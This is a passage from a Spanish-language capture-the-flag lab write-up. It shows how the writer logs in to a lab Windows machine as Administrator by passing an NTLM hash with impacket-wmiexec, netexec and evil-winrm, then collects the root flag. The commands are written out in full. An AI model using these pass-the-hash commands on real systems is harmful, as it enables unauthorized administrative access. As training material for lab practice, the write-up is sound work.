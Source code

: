 - wmiexec:

``impacket-wmiexec Administrator@10.10.10.161 -hashes ':32693b11e6aa90eb43d32c72a07ceea6'``

![34](Images/34.png)


- evilwinrm:

Primero deberíamos validar que nos podemos conectar por winrm:

``netexec winrm 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'``

![35](Images/35.png)

Pwn3d!, por lo que podemos utilizar evil-winrm.

``evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'``

![36](Images/36.png)


Podemos conectarnos a la máquina víctima y elevar privilegios de cualquiera de estas tres formas descritas.

Recogemos la flag de Administrator en C:\Users\Administrator\Desktop\root.txt
